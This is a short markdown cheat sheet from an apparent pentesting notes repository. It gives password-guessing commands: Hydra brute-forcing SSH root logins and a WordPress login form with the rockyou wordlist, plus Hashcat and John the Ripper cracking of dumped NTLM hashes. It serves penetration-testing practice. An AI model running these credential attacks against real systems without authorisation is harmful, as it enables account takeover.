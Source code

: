 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit-password-guessing.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit-password-guessing.md#john-the-ripper">Bottom of Page</a>
</p>

# Cheatsheet - Password Guessing
## Table of Contents
* [Online](#online)
  * [Hydra](#hydra) 
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash
john hashes.dump
```
